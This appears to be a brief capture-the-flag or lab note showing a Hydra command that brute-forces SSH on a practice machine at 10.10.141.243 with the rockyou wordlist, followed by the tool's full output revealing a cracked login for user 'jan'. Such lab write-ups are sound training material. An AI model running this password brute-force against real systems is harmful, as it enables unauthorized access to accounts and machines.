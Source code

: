 # hydra

  
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.141.243  
  
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
  
Hydra (<https://github.com/vanhauser-thc/thc-hydra)> starting at 2020-03-14 18:17:48  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task  
[DATA] attacking ssh://10.10.141.243:22/  
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 14344223 to do in 1335:36h, 16 active  
[STATUS] 118.00 tries/min, 354 tries in 00:03h, 14344048 to do in 2025:60h, 16 active  
[22][ssh] host: 10.10.141.243 login: jan password: armando  
1 of 1 target successfully completed, 1 valid password found  
[WARNING] Writing restore file because 2 final worker threads did not complete until end.  
[ERROR] 2 targets did not resolve or could not be connected  
[ERROR] 0 targets did not complete  
Hydra (<https://github.com/vanhauser-thc/thc-hydra)> finished at 2020-03-14 18:24:34